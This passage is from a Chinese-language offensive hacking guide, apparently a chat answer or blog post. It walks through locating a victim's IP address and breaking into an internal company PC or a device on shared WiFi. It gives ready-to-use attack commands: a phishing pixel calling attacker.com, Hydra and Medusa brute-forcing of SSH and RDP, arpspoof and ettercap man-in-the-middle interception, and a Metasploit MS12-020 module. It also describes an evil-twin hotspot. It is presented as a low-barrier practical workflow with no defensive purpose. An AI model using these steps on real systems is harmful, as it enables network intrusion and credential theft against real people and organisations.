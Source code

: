 - **作用**：从外部攻击（目标需暴露在公网，如开启端口转发、使用云服务器）。
- 获取方式：
  - **社工欺骗**：诱导受害者访问恶意网站，通过`JavaScript`获取其公网 IP（`fetch('https://api.ipify.org').then(res => res.text()).then(ip => console.log(ip))`）。
  - **邮件钓鱼**：在邮件中嵌入隐形图片（如`<img src="http://attacker.com/ip.php" width="1" height="1">`），受害者加载时自动记录 IP。
  - **漏洞扫描**：用 Shodan、Censys 等搜索引擎，通过设备特征（如路由器型号、开放端口）定位公网 IP（例：搜索`port:3389 country:"CN"` 找中国开放远程桌面的 IP）。

### 二、**从外网侵入内网电脑的典型流程（实战案例）**

#### 场景：攻击某公司员工的内网电脑（无公网 IP，仅通过公司路由器连接互联网）

1. **第一步：获取公司公网 IP（入口点）**
   - 通过公司官网域名解析（`nslookup company.com`）获取服务器公网 IP（如`114.114.114.114`）。
   - 用 Nmap 扫描公网 IP 的开放端口（`nmap -p 1-65535 114.114.114.114`），发现开放的 HTTP（80）、SSH（22）、RDP（3389）等端口。
2. **第二步：突破边界设备（路由器 / 防火墙）**
   - **弱密码攻击**：尝试默认路由器密码（如`admin/admin`、`password`），或用 Hydra 爆破 SSH/RDP（`hydra -l admin -P password.txt ssh://114.114.114.114`）。
   - **端口转发漏洞**：若路由器开启 NAT 映射（如将内网 3389 端口映射到公网 8080），直接连接`114.114.114.114:8080`尝试远程桌面登录。
3. **第三步：渗透内网，定位目标 IP**
   - **获取内网网段**：登录路由器后，查看 DHCP 分配的内网段（如`192.168.1.0/24`）。
   - **ARP 欺骗（中间人攻击）**：用 Arpspoof 欺骗内网设备（`arpspoof -i eth0 -t 192.168.1.100 192.168.1.1`），拦截目标电脑的流量，获取其 IP（`192.168.1.100`）。
   - **主机发现**：用 Nmap 扫描内网存活主机（`nmap -sP 192.168.1.0/24`），通过[MAC](coco://sendMessage?ext={"s%24wiki_link"%3A"https%3A%2F%2Fm.baike.com%2Fwikiid%2F7244353856745029669"}&msg=MAC)地址厂商（如`华为=00:18:82`）判断目标设备类型（如手机、电脑）。
4. **第四步：攻击目标电脑（以 RDP 为例）**
   - **爆破登录凭证**：用 Medusa 爆破 RDP 密码（`medusa -h 192.168.1.100 -u user.txt -P password.txt -M rdp`）。
   - **漏洞利用**：若目标系统存在 MS12-020 漏洞，用 Metasploit 的`exploit/windows/rdp/ms12_020_maxchannelids`模块直接获取权限。

### 三、**从内网直接攻击的 “零门槛” 方法（无需公网 IP）**

#### 场景：攻击者与目标在同一 WiFi 网络（如咖啡厅、图书馆）

1. **第一步：扫描内网 IP（必备工具：Nmap）**

   ```bash
   nmap -sn 192.168.1.0/24  # 扫描所有存活主机  
   # 结果示例：192.168.1.1（路由器）、192.168.1.100（目标电脑）、192.168.1.101（手机）  
   ```

2. **第二步：识别目标设备（关键：MAC 地址与设备对应）**

   - 用arp -a查看 IP-MAC 映射，通过 MAC 地址前 6 位判断厂商：
     - `00:0C:29`（VMware 虚拟机）、`EC:5E:45`（苹果电脑）、`3C:15:C2`（小米手机）。
   - 结合设备名称（如目标电脑开启文件共享，名称为`WIN10-PC`），锁定目标 IP（如`192.168.1.100`）。

3. **第三步：钓鱼获取权限（简单高效，无需复杂技术）**

   - **伪造热点**：用 Airport 工具创建同名 WiFi（如`Starbucks-Free`），诱使目标连接，此时目标 IP 变为攻击者分配的地址（如`192.168.2.100`）。
   - **MITM 攻击**：用 ettercap 进行中间人攻击，拦截目标流量，获取登录凭证（如 HTTP 明文传输的账号密码）。

### 四、**黑客如何让目标 “暴露” IP 地址？核心手段解析**
